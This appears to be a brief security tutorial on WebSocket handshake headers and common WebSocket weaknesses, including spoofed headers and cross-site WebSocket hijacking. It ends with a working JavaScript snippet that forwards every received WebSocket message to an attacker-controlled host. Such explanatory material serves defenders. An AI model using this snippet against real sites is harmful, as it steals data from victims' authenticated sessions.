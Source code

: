# WebSocket Handshake and Vulnerabilities

## WebSocket Handshake Features

WebSocket technology establishes a full-duplex communication channel over a single, long-lived connection. The WebSocket handshake process involves several key HTTP headers:

- **Connection and Upgrade**: These headers in both the request and response signal that the connection should be upgraded to a WebSocket.
  
- **Sec-WebSocket-Version**: This request header indicates the WebSocket protocol version the client wishes to use, typically version 13.

- **Sec-WebSocket-Key**: A Base64-encoded random value is sent in this request header. It should be generated anew for each handshake to ensure the security of the WebSocket connection.

- **Sec-WebSocket-Accept**: The response header contains a hash generated from the value submitted in the `Sec-WebSocket-Key`, concatenated with a GUID specified in the WebSocket protocol. This verification step helps prevent misleading responses from misconfigured servers or caching proxies.

## Exploiting WebSocket Vulnerabilities

WebSocket connections can introduce several security risks if not properly configured and handled:

### Misplaced Trust in HTTP Headers

WebSockets may inherit security flaws common in HTTP, such as improper reliance on headers like `X-Forwarded-For` for security decisions.
These headers can be easily spoofed, leading to inaccurate security validations.

### CSRF in WebSockets

Cross-Site Request Forgery (CSRF) can be exploited in WebSocket connections if they rely on session cookies without additional verification. Below is an example of how a CSRF attack could be mounted on a WebSocket:

```
<script>
    var ws = new WebSocket('wss://your-websocket');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://attacker.com', {
            method: 'POST',
            mode: 'no-cors',
            body: event.data
        });
    };
</script>
```
In this example, the WebSocket connection is abused to send data received from the WebSocket to an attacker-controlled site whenever a message is received.
